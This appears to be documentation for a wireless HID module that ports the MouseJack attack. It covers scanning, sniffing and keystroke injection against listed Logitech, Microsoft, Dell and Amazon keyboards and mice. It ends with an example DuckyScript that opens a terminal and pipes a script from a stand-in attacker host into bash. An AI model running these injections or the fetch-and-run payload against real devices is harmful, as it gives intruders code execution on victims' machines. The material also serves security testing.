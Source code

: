 ```yaml
---
title: "HID on 2.4Ghz"
date: 2019-02-25T11:10:28+01:00
draft: false
weight: 4
---
```


This module, which is a port of [Bastille's mousejack attack](https://www.mousejack.com/), performs scanning and frames injection for HID devices on the 2.4Ghz spectrum, using Nordic Semiconductor nRF24LU1+ based USB dongles and Bastille's [RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware).

The module will work with one of the devices supported by RFStorm:

* CrazyRadio PA USB dongle
* SparkFun nRF24LU1+ breakout board
* Logitech Unifying dongle (model C-U0007, Nordic Semiconductor based)

{{% notice warning %}}
In order for this module to work, you need to make sure you installed the [Bastille’s RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware) on one of the supported devices.
{{% /notice %}}

Once flashed with the proper firmware and connected to your computer, `dmesg` should report the device as:

```sh
usb 3-1.3: new full-speed USB device number 8 using xhci_hcd
usb 3-1.3: New USB device found, idVendor=1915, idProduct=0102
usb 3-1.3: New USB device strings: Mfr=1, Product=2, SerialNumber=0
usb 3-1.3: Product: Research Firmware
usb 3-1.3: Manufacturer: RFStorm
```

The attack is known to support detection and [DuckyScript](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript) injection for the following devices:

* Microsoft Wireless Keyboard 800
* Microsoft Wireless Mouse 1000
* Microsoft Wireless Mobile Mouse 3500
* Microsoft All-In-One Media Keyboard
* Microsoft Sculpt Ergonomic Mouse
* Logitech Wireless Touch Keyboard K400r
* Logitech Marathon M705 Mouse
* Logitech Wave M510 Mouse
* Logitech Wireless Gaming Mouse G700s
* Logitech Wireless M325 Mouse
* Logitech K750 Wireless Keyboard
* Logitech K320 Wireless Keyboard
* Dell KM636 Wireless Mouse and Keyboard
* AmazonBasics MG-0975 Wireless Mouse

### Commands

#### `hid.recon on`

Start scanning for HID devices on the 2.4Ghz spectrum.

#### `hid.recon off`

Stop scanning for HID devices on the 2.4Ghz spectrum.

#### `hid.clear`

Clear all devices collected by the HID discovery module.

#### `hid.show`

Show a list of detected HID devices on the 2.4Ghz spectrum.

#### `hid.sniff ADDRESS`

Start sniffing a specific ADDRESS in order to collect payloads, use 'clear' to stop collecting.

#### `hid.inject ADDRESS LAYOUT FILENAME`

Parse the DuckyScript `FILENAME` and inject it as HID frames spoofing the device `ADDRESS`, using the `LAYOUT` keyboard mapping (available layouts: `BE BR CA CH DE DK ES FI FR GB HR IT NO PT RU SI SV TR US`).

{{% notice note %}}
The command `hid.inject` does not require the HID device to be visible via the `hid.show` command. If you know the address of the dongle already, you can simply set the `hid.force.type` parameter to one among `logitech` (the default value), `amazon` or `microsoft` and run the injection *"blindly"*.
{{% /notice %}}

### Parameters

| parameter | default | description |
|-----------|---------|-------------|
| `hid.lna` | `true` | If true, enable the LNA power amplifier for CrazyRadio devices. |
| `hid.hop.period` | `100` | Time in milliseconds to stay on each channel before hopping to the next one. |
| `hid.ping.period` | `100` | Time in milliseconds to attempt to ping a device on a given channel while in sniffer mode. |
| `hid.sniff.period` | `500` | Time in milliseconds to automatically sniff payloads from a device, once it's detected, in order to determine its type. |
| `hid.force.type` | `logitech` | If the device is not visible (if you want to talk directly to a dongle without connected devices) or its type has not being detected, force the device type to this value. Accepted values: `logitech`, `amazon`, `microsoft`. |
| `hid.show.filter` | | Defines a regular expression filter for `hid.show`. |
| `hid.show.sort` | `mac desc` | Defines sorting field (mac, seen) and direction (asc or desc) for `hid.show`. |
| `hid.show.limit` | `0` | Defines limit for `hid.show`. | 

### Examples

Enable HID discovery, use the `ticker` module to display detected devices, wait for the device `32:26:9f:a4:08` to be detected and inject the `ducky.txt` script as HID frames using the US keyboard layout:

```sh
> set ticker.commands clear; hid.show; events.show 10
> hid.recon on
> ticker on
# ... wait for the device to be detected, using `hid.show` ...
> hid.inject 32:26:9f:a4:08 US ducky.txt
```

Send the `ducky.txt` script keystrokes to the dongle with address `32:26:9f:a4:08` forcing its type to `logitech` and without waiting for any connected device to be visible:

```sh
> set hid.force.type logitech
> hid.recon on
> hid.inject 32:26:9f:a4:08 US ducky.txt
```

Example `ducky.txt` (for a complete list of available commands [see the documentation](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)):

	GUI SPACE
	DELAY 200
	STRING Terminal
	ENTER
	DELAY 500
	STRING curl -L http://www.evilsite.com/commands.sh | bash
	ENTER

Hacking Logitech devices:

<iframe width="560" height="315" src="https://www.youtube.com/embed/TdPRYWkYarM" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
